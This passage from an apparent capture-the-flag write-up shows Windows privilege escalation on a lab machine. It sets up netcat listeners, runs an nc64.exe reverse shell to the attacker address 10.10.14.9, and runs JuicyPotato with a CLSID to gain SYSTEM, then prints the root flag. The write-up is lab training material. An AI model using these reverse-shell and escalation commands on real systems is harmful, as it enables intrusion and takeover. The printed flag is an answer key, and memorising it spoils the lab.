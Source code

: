 I can go to the [JuicyPotato GitHub](https://github.com/ohpe/juicy-potato/tree/master/CLSID) and find a [list of CLSIDs for Windows 10 Enterprise](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise). I’ll try a few that run as “NT AUTHORITY\SYSTEM” until I get one to work.

```bash
# lhost for cmd shell
nc -vlp 443
# lhost for Root shell
nc -vlp 3333
```

Convert the powershell shell to CMD shell on port 443:

![[Conceal-19.png]]

```cmd
C:\users\Destitute\appdata\local\temp\nc64.exe 10.10.14.9 443 -e cmd.exe
```

```powershell
# first try
JuicyPotato.exe -t * -p C:\users\Destitute\appdata\local\Temp\rev.bat -l 1337 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

![[Conceal-18.png]]

Very Nice! we get the root shell. Let's capture root flag.

```powershell
whoami
type C:\Users\Administrator\Desktop\Proof.txt
# root flag
5737DD2EDC29B5B219BC43E60866BE08
```

![[Conceal-20.png]]
